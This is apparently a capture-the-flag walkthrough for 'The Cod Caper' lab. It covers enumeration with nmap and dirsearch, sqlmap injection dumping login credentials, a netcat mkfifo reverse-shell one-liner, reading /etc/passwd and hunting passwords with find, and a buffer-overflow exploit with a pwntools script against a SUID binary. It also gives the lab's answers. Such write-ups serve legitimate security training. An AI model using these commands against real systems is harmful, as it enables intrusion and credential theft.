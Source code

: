 # WriteUp for The Cod Caper
__________________________________________________________________________________________________________

## Host Enumeration

For this we can start our basic enumerations using [nmap](nmap_results).
```
export IP=<ip>
nmap -sC -sV -Pn -oN nmap_results $IP
```
### How many ports are open on the target machine?
2
### What is the http-title of the web server?
Apache2 Ubuntu Default Page: It works
### What version is the ssh service?
OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
### What is the version of the web server?
Apache/2.4.18

______________________________________________________________________________________________________
## Web Enumeration

For this we can use [dirsearch](dirsearch_results).
```
python3 dirsearch -u <url> -e php -x 403 -F
```
### What is the name of the important file on the server?
/administrator.php

________________________________________________________________________________________________________

## Web Exploitation

After visiting /administrator.php we find a login page, we can exploit this using sqlmap.
```
sqlmap -u http://$IP/administrator.php --form --dump
```
```
Database: users
Table: users
[2 entries]
+------------+------------+
| username   | password   |
+------------+------------+
| pingudad 	 | secretpass |
+------------+------------+
```
### What is the admin username?
pingudad
###	What is the admin password?
secretpass
### How many forms of SQLI is the form vulnerable to?
3
```
Parameter: username (POST)
    Type: boolean-based blind
    Type: error-based
    Type: AND/OR time-based blind
```
__________________________________________________________________________________________________________

## Command Execution
We can get a reverse shell on the system 
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ip> <port> >/tmp/f
```
### How many files are in the current directory?
3
### Do I still have an account
yes
we can check by 
```
cat /etc/passwd
```
### What is my ssh password?
We can find this by find command.
```
find / -name hidden 2>/dev/null
find / -user www-data 2>/dev/null
```
pinguapingu
__________________________________________________________________________________________________________

## LinEnum
```
scp {path to linenum} {user}@{host}:{path}. Example: scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp
```
### What is the interesting path of the interesting suid file
We find the file using lipeas in /opt/secret/root
______________________________________________________________________________________________________

## pwndbg

We have the source code of /root file 
```
#include "unistd.h"
#include "stdio.h"
#include "stdlib.h"
void shell(){
setuid(1000);
setgid(1000);
system("cat /var/backups/shadow.bak");
}

void get_input(){
char buffer[32];
scanf("%s",buffer);
}

int main(){
get_input();
}
``` 
The SUID file seems to expect 32 characters of input, and then immediately exits, We will examine it with gdb
```
gdb /opt/secret/root
```
* The next step is to test if anything happens when you send more then 32 characters. To do this type r < <(cyclic 50), that command runs the program and provides 50 characters worth of "cyclic" input.

* Cyclic input goes like this: "aaaaaaaabaaacaaadaaaeaaaf".

* It seems that in this case we're able to overwrite EIP, which is known as the instruction pointer. The instruction pointer tells the program which bit of memory to execute next, which in an ideal case would have the program run normally. However, since we're able to overwrite it, we can theoretically execute any part of the program at any time.

* Running cyclic -l 0x6161616c outputs 44, meaning we can overwrite EIP once we provide 44 characters of input.

* Now the next step is to find out exactly where the shell function is in memory so we know what to set EIP to. GDB supports this as well with the disassemble command. Type ```disassemble shell```, and this should pop up.

* Method 1 - Manual conversion:
```
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | ./root
```

* Method 2 - Struct:
```
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)' | ./root
```

We can automate this entire process using python
```
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()
```